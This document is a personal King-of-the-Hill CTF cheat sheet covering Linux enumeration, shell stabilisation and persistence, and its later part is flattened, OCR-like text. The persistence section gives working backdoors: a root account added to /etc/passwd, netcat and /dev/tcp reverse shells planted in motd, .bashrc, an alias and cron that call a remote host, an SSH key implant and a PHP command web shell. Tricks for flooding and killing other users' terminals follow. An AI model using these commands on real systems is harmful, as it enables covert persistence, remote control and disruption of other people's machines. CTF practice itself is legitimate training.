 siren from offsec has a killer cheat sheet for windows and Linux on her website

find files with suid perms
```bash
find / -perm /4000 2>/dev/null
```
find files with sgid perms
```bash
find / -perm /6000 2>/dev/null
```
find files with world-writabble perms
```bash
find / -perm /2000 2>/dev/null
```
Search  cronjobs
```bash
cat /etc/crontab
```

lists what users can run sudo on what 
```bash
sudo -l
```

find writable passwd
```bash
ls -la /etc/passwd
```


```bash
find / -perm -u=s -type f 2>/dev.null
```

![[KOTH_Notes.pdf]]

#### Gaining a full tty shell: 
Victim Machine: 
```bash
~$ python3 -c 'import pty; pty.spawn("/bin/sh")' 
export TERM=xterm
Ctrl + z 
```
Attacking Machine:
```bash
stty raw -echo;fg 
```

#### Finding files and permissions 
- Using find Root permissions 
```bash
find / -type f \( -perm -4000 -o -perm -2000 \) -print
```
- to list files that have SUID or SGID bits set
```bash
find / -type f -perm -04000 -ls 2>/dev/null - will list files that have SUID or SGID bits set.
```
- below may require the user's password
```bash
sudo -l
```

- Flags 
```bash
find / -name flag.txt 2>/dev/null 
find / -name user.txt 2>/dev/null 
find / -name .flag 2>/dev/null 
find / -name flag 2>/dev/null 
find / -name root.txt 2>/dev/null 
find / 2>>/dev/null | grep -i "flag"
```

#### GREP
	- Grep all files recursively for a known flag name in the current directory onwards. 
```bash
grep -RoP "FLAG{.*?}" . grep -RoP "THM{.*?}" .
```
#### Backdoors/root things 
Add a user called hacker with password hacker into /etc/passwd that runs as root. 
```bash
hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash
``` 
Add revshell into motd 
```bash
cd /etc/update-motd.d/;echo -e '#!/bin/sh\rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 1234 >/tmp/f' > 20-backdoor && chmod +x 20-backdoor
``` 
ssh for root 
password = *REDACTED*
```bash
mkdir -p /root/.ssh/ && echo 'REDACTED ryan@Kali2020' > /root/.ssh/authorized_keys ssh -i root@IP
``` 
**How to make this?** 
Use ssh-keygen on your own machine.
[ssh-kengen - Linux man page](https://linux.die.net/man/1/ssh-keygen) 
[SSH Keys- Arch Linux](https://wiki.archlinux.org/title/SSH_keys)

bashrc This fully stops anyone getting to root. always sends me a shell. 
```bash
cd /root;echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 1234 >/tmp/f &' >> .bashrc
``` 
Another example: 
```bash
echo 'bash -i >& /dev/tcp/1.2.3.4/1234 0>&1' >> ~/.bashrc
```
alias to root (only do this on root as it gives errors for others.) 
```bash
alias cd='$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 1234 >/tmp/f); cd'
``` 

cron job root: cat /etc/crontab nano /etc/crontab /bin/bash -c '/bin/bash -i >& /dev/tcp/1.2.3.4/1234 0>&1 Is there a webapp running? Place the below text into a php file (file.php) in the /var/www/html folder and then call it via IP/file.php?cmd=blah (GET OR POST requests) " . shell_exec($_REQUEST['cmd']) . ""; } ?> Chattr chattr is the command in Linux that allows a user to set certain attributes of a file. lsattr is the command that displays the attributes of a file Chattr is on the box: chattr +i /root/king.txt KOTH Notes 4 Chattr is not on the box: Attacking Machine: wget https://raw.githubusercontent.com/posborne/linux-programming-interfaceexercises/master/15-file-attributes/chattr.c gcc chattr.c -o chattr python3 -m http.server 80 Victim Machine: wget http://YOURIP/chattr ./chattr +i king.txt You can also upload the binary on the koth machine and compile the binary if it has gcc. Check configured cron jobs. Crontab files with cron job definitions can be found in various places on the system: /var/spool/cron/crontabs/  — per-user cron jobs /etc/crontab  — system crontab file, this will have references to all the other system crontab files below /etc/cron.d/ /etc/cron.hourly/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.monthly/ Nasty stuff/Memes 🐚 break into shell of a user (SSH): script -f /dev/pts/1 ⛔kill a shell: pkill -9 -t pts/1 😼 Nyancat: Preparing the Nyancat git clone https://github.com/klange/nyancat cd nyancat/src make KOTH Notes 5 Sending Nyancat to machine: python -m SimpleHTTPServer 80 # on your local machine wget http://yourip/nyancat # on the KOTH machine chmod +x nyancat ./nyancat > /dev/pts/1 🎲/dev/urandom: cat /dev/urandom > /dev/pts/1 get out of dev urandom - /bin/bash "-norc” 💬Send messages to people: echo "test" > /dev/pts/1 yes "Don't mind me just spamming your terminal" > /dev/pts/1 🗨Send message to everyone: Wall “Ryan was here :sunglasses:” 🥷change commands via alias alias ls='echo you are here :)' alias cd=ls alias cdd=cd alias 'cd ..'=cd alias vim=nano alias nano=vim alias cp='echo cp' alias echo='echo...echo..echo, anyone there?' alias kill='echo confirmed all dead sir.' alias while='echo did you really think you could while loop me?' alias w='echo x, y and z' alias who='echo what?' alias hydra='echo no passwords for you hehe.' You can also combine stuff like ls=’echo “Is there something here?”;ls’ Misc Check who’s on the box w ps aux | grep pts who KOTH Notes 6 Hide your PTS mount -o bind /tmp /proc/PID Set noclobber " set -o noclobber " (This stops people from output redirecting ">") set the above in .bashrc Loops: Crontab - * * * * echo "[RyanCTF]" >> /root/king.txt >/dev/null 2>&1 kill sessions (NEVER use in public. Don’t use this in private without checking with the group) - while true; do pkill -t -9 pts/#; done This can be backgrounded too with & while :; do echo 'RyanCTF' > king.txt; done & - Sometimes this breaks the king service. Be careful. while [[ $(cat /root/king.txt) != "RyanCTF" ]]; do echo "RyanCTF" >> /root/king.txt; done & Change password passwd Change/update SSH nano /etc/ssh/sshd_config Change the port to anything you like KOTH Notes 7 service sshd restart HA Polkit who? chmod 0755 /usr/bin/pkexec show a specific line in a file (in this case 52) sed -n 52p FILE.txt Add domain to hosts file (SUDO required) echo "MACHINE_IP WEBSITENAME" >> /etc/hosts Check active processes and network connections: ps -ef netstat -antp | grep ESTABLISHED netstat -antp | grep LISTEN Linpeas - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS NFS NFS is a network file share that runs on both TCP and UDP on port 111 and 2049. Like FTP, NFS is used to transfer files. They are still quite different. While FTP uses a client-server model to communicate, NFS acts as a distributed system. This means that a user can access a share(think of this as a directory) on their own file system. While FTP uses username and password to manage authentication and authorization to files, NFS uses the linux permission system to manage these things. Common misconfigurations include: Publicly accessible shares: some administrators may expose NFS shares to anyone. An attacker could mount the share onto their file system and access files on the share. When the permissions a file are different, an attacker would have to change their user ID/group ID to match the permissions of the file. The first step would be enumerating a system to check if NFS is running. Once NFS is running, we would check to see if any shares are available. This is done using this command showmount -e ip-address This command shows all the shares exported by NFS. KOTH Notes 8 If this command outputs any shares, you can try mount the shares on to your file system mount ip:/file/path /local/file/path Note that this command would require sudo permissions Once it is successfully mounted, you can browse to the location on your file system and try access the files. After completing this, you need to unmount the file system using the command: umount /local/file/path Note that this command would require sudo permissions Windows (In Progress) windows search for files: dir /b/s *.txt Random list of stuff for now. Rubeus.exe - https://github.com/r3motecontrol/Ghostpack-CompiledBinaries net user GetNPUsers.py hashcat -m 13100 psexec.py - https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py winpeas - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS